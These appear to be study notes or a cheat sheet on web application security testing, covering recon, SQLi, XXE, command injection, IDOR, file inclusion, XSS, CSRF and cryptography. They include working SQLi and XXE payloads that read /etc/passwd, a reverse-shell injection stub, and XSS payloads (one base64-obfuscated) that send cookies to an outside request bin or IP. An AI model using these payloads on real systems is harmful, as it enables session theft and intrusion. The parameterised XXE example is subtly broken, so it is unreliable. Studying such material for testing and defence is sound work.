

# Review

## Recon

Active:

* `nmap`, `masscan`, DNS brute forcing, subdomain
* `dirb`, `dirbuster`, `gobuster`, etc.

Passive:

* using a proxy, [`linkfinder`](https://github.com/GerbenJavado/LinkFinder)
* developer tools network tab
* public resources ([dnsdumpster.com](https://dnsdumpster.com/), etc.)

Recon checklist:

* [ ] Direct site links

    ``` sh
    python3 link-finder.py <url>
    ```

* [ ] Certificate transparency ([crt.sh](https://crt.sh))

    ``` txt
    https://crt.sh/?q=<domain>
    ```

* [ ] Brute force incl. subdomains, subdirectories etc.  

    ``` sh
    # subdomains
    sublist3r -v -d <domain> -o outfile -b
    ```

* [ ] Developer Tools
    * [ ] View page source for comments or subdirectory files
    * [ ] Console
    * [ ] Subdirectory files
    * [ ] `robots.txt`
    * [ ] Cookies
* [ ] Email protocols (SPF, DKIM, DMARC)

    ``` sh
    # spf
    dig _spf.<domain> TXT
    # dmarc
    dig _dmarc.<domain> TXT
    ```

## Authentication

### SSO

**Single sign-on (SSO)** is a session and user authentication service that lets a user use ***one*** set of login credentials to access ***multiple*** applications.



### SAML

**Security Assertion Markup Language (SAML)** is a variant of XML used to transfer security info. It is somewhat outdated; mostly OAuth now.  
A **service provider** is a site you want to sign in for.  
A **identity provider** is a site which provides your identity (e.g. Facebook, Google etc.)

SAML provides authentication to the user. Your application is responsible for authorisation.

## Server-Side

### SQLi

``` sql
'/**/oR+'2'='2
```

Troubleshooting:

* Check your quote style; `"` or `'`
* Check URL encoding (use a proxy, `<C-u>` in BurpSuite)
* Terminate with a comments `-- -`
* Write a toy application to test your query syntax

Payloads:

* `OR 1=1` (True), `AND 1=2` (False), `OR 9=9` (WAF Bypass)
    * Alternative comments: `/**/`, `//`, `#`
    * String comparison `"1" LIKE "1"` instead of using `=`
    * Just `TRUE` or `FALSE` instead of expressions
    * `||` for `or`
* `UNION SELECT (new query, matching columns)`

``` sql
SELECT * FROM items where blah = 1 UNION SELECT name,pass,3 from users where ...
```

E.g. <https://portwatsonfishing.com/sqli.php?name=item1%22+union+select+name,pass,3+from+users+where+%221%22=%221>

Rules:

1. Query 1 needs the **same columns AND column types** as Query 2
2. The query must match quotes/braces, and end cleanly

Metadata tables:

* MySQL
    * `INFORMATION_SCHEMA.TABLES` for table information  
    Useful Columns:
        * `TABLE_NAME` for table name
        * `TABLE_TYPE` for type of the table. To get user defined tables `table_type like 'base table'`
        * `TABLE_SCHEMA` for name of schema that contains the table
        * `TABLE_CATALOG` for table qualifier
    * `INFORMATION_SCHEMA.COLUMNS` for information about columns in tables  
    Useful Columns:
        * `TABLE_NAME` for table name
        * `COLUMN_NAME` for column name

### XXE

Basic XXE payload:

``` xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY bar SYSTEM "file:///etc/passwd">
]>
```

External dtds:

``` xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY % bar SYSTEM "http://178.128.122.17/external.dtd">
%bar;
]>
```

``` xml
<!ENTITY data SYSTEM "file:///etc/passwd">
```

Parameterised payload:

``` xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY % bar SYSTEM "http://178.128.122.17/external.dtd">
%bar;
]>
```

``` xml
<!ENTITY % one "file:">
<!ENTITY % two "///et">
<!ENTITY % three "c/pas">
<!ENTITY % three "swd">
<!ENTITY % PATH "%one;%two;%three;%four;">

<!ENTITY % fleg '<!ENTITY data SYSTEM "%PATH;">'>
%fleg;
```

### Injection

``` php
system('zip'+$_GET["id"]+'.zip /lol/*')
id=;python -c 'import sockert ...'
```

Typically when the server confuses data with code.

* SQL
* Shell commands (e.g. unsafe calls to `system()`)
* Sub-processes (e.g. tainted input to pdf generator)

Pretend you're writing the app. Where would vulnerabilities be?  
Use `sleep` commands if you can get outputs.

Reverse shell cheat sheet: <https://highon.coffee/blog/reverse-shell-cheat-sheet/>

### IDOR/Access Control

> <http://lol.com/sekrit.php?id=4>  
> <http://lol.com/adminsonly.php>

Occurs when the server doesn't validate access to a resource, data item or function.

* Authorisation vs Authentication: some instances need you to log in, but don't care who you're logged in as
* If you have a login, enumerate URLs when logged in, log out, enumerate them again
* Don't stop at `id=<yourid+1>`, try `id=1`, `id=0`

Check links carefully; HTML comments, JavaScript

### File Inclusion

> <http://lol.com/print.php?file=http://lol2.com/pew>

Occurs when the server fails to validate a path to a file.

* Can you upload a file? Does it have to be the same format?
* Can you supply a URL?
* Can you supply content directly (e.g. PHP filters, including `stdin`/`stderr`, log files etc.)

If you can't get it working, build a test application in the target language and try with toy example first.

## Client-Side

### XSS

> <http://lol.com/hello.php?name%3Cb%3Elol%3C%5Cb%3E>

* **Reflected**: server inserts payload directly into response.  
Exploit by sending a link
* **Stored**: poison data stored in back-end, displayed back later.  
Exploit by inserting poisoned values and waiting.
* **DOM-based**: inserting it directly into the DOM (e.g. via JS)

You typically want to exfiltrate the cookie, but ***not always***

Sample payloads:

``` html
<script>fetch("https://enu1mo7548jr.x.pipedream.net/"+document.cookie)</script>
<script>window.location="http://178.128.122.17?c="+document.cookie</script>
<script>new Image().src="https://enu1mo7548jr.x.pipedream.net?c="+document.cookie</script>

<script>document.write("</img>")</script>
```

Possible bypasses:

* `document['cookie']` instead of `document.cookie`
* encoding:
    * JavaScript: `btoa` (b64 encode) and `atob` (b64 decode)

        ``` js
        fetch(`${atob('aHR0cHM6Ly9lbnUxbW83NTQ4anIueC5waXBlZHJlYW0ubmV0P2M9')}${document['cookie']}`)
        ```

    * Python: getting the URL encoding of a char:

        ``` python
        hex(ord('.'))
        ```

* embedded tags: `<sc<scriptript >window.location="https://enu1mo7548jr.x.pipedream.net?c="+document.cookie</script >`

### CSRF

> <http://lol.com/adduser.php?un=a&pw=a>

When someone (e.g. an admin) views a link on a domain they have stored cookies on, the browser automatically sends their cookies. If the link is an admin action, they do it as an admin.

To find these, set up your own instance of the application to audit, then exploit by sending the admin a poisoned link.  
You can launch CSRF from XSS (i.e. admin views a poisoned page, submits a new user request with parameters you control)

### CORS/CSP

**C**ross **O**rigin **R**esource **S**haring restricts where content can be ***loaded*** from.  
**C**ontent **S**ecurity **P**olicy restricts what content can actually run (via checksums)

TL;DR: Check your browser event logs and Google the specifics as they happen.

## Cryptography

**Hashing** proves integrity:

* [crackstation.net](https://crackstation.net/)
* [CyberChef](https://gchq.github.io/CyberChef/)

**Salting** hashes adds something to the plaintext before hashing avoiding pre-calculation and rainbow table attacks.  
**DON'T** use a common salt or a repeated salt.

**Encryption** provides secrecy.  
**Padding Oracle** attacks allow an attacker to decrypt information without knowing the encryption key. A padding oracle is a type of system that takes in encrypted data from the user, decrypts it and verifies whether the padding is correct or not. See [padding oracle attack](https://github.com/mpgn/Padding-oracle-attack)
